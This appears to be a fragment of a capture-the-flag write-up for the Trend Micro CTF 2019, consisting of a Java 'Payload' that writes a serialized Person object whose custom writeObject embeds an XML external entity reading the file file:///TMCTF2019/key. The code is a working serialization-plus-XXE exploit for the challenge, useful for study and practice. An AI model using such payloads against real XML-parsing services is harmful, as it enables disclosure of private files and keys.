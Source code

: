 Payload:

```java=
package com.trendmicro;

import java.io.ObjectInputStream;
import java.io.FileInputStream;
import java.io.ObjectOutputStream;
import java.io.FileOutputStream;
import java.io.Serializable;
import org.xml.sax.SAXException;
import javax.xml.parsers.ParserConfigurationException;
import java.io.IOException;
import org.w3c.dom.Node;
import org.w3c.dom.NodeList;
import org.w3c.dom.Document;
import javax.xml.parsers.DocumentBuilder;
import java.io.InputStream;
import javax.xml.parsers.DocumentBuilderFactory;
import java.io.ByteArrayInputStream;

public class SerializeTest {

    public static void main(String args[]) throws Exception {

        Person p = new Person("kaibro");
        FileOutputStream fos = new FileOutputStream("name.ser");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        os.writeObject(p);
        os.close();

    }
}

class Person implements Serializable {
    public String name;
    private static final long serialVersionUID = -559038737L;

    public Person(final String name) {
        this.name = name;
    }

    private void writeObject(ObjectOutputStream stream) throws ClassNotFoundException, IOException,
        ParserConfigurationException, SAXException {
        stream.writeInt(100);
        String s = ("<?xml version=\"1.0\"?><!DOCTYPE kaibro[<!ENTITY xxe SYSTEM \"file:///TMCTF2019/key\">]><tag>&xxe;</tag>");
        byte[] tmp = s.getBytes();
        stream.write(tmp);
    }
}
```

